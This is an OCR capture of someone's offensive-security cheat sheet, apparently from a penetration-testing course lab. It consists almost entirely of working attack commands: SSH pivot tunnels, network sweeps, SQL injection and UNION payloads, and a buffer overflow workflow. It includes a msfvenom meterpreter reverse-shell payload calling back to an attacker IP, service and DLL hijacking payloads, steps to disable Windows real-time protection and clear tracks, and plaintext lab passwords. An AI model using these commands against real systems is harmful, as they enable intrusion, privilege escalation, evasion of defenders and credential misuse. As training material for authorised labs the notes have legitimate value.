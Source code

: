 KEPE-006-M
jTlU99dknad4D95

Tunnels
exit
ssh -MS /tmp/gray student@10.50.46.234
ssh -S /tmp/gray gray -O forward -D9050
ssh -S /tmp/gray 10 -O forward -L 1700:192.168.28.27:22

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.129,112,113,114 
-p-[all ports] -p[22,23]


SQL Injection
tom' or 1='1
SELECT carid, name, (SELECT SUM(cost) FROM Tires WHERE name = "goodyear") FROM car WHERE name = "ford";
<URL>/uniondemo.php?Selection=2 OR 1=1
<URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3  <!-- Validate NUMBER of columns required -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM Tires <!-- Test pulling VALID data -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM car <!-- Test pulling data from ALTERNATE table -->

ssh www-data@0.0.0.0 -p 1460 -L 1400:192.168.150.253:3201 -NT



Windows Buffer Overflow
Break program with tcpcon.py

Open Immunity debuger CPU window and exe as administrator
Attach file in cpu window
Generate Buffer overflow pattern https://wiremask.eu/tools/buffer-overflow-pattern-generator/
Copy EIP to find where the error happens
add DEADCODE to buff in script
mona modules -o
imona jmp -r esp -m "<file>"
find jmp esp instruction memory address
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.46.234 lport=4444 -b
msfconsole -q
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
show options, set lhost, set lport
shut off real time protection in windows-> security -> vires and threat -> mange settings -> real-time protection





Privilege Escalation,P Persistence and Covering your Tracks
sudo -l (list user permissions)
/var/log/ auth.log/secure (login/authen) lastlog(successful login time) btmp(bad login) sulog(SU command) utmp(W command) wtmp(permanent record on user)

find /var/log -type f -mmin -10 2> /dev/null

msfvenom -p linux/x86/exec CMD="sudo cat /.secret/.verysecret.pdb" -b '\x00' -f python




Windows Exploitation
Services
check path
file explorer

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktop\whoami.txt' -f exe > 7z.exe
scp
task scheduler
find task run by system try and try and edit/create files within the directory
view hidden files

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktio\dll.dll' -f dll > name of dll its calling for

ssh -S /tmp/gray pivot -O forward -L 1700:192.168.28.105:2222
ssh comrade@0.0.0.0 -p 1700 -L 40000:192.168.28.27:22
ssh zeus@0.0.0.0 -p 40000 -L 1900:192.168.28.9:3389
ghjcnbnenrf
xfreerdp /u:comrade /v:0.0.0.0:1900 /p:StudentMidwayPassword /size:1920x1000 +clipboard
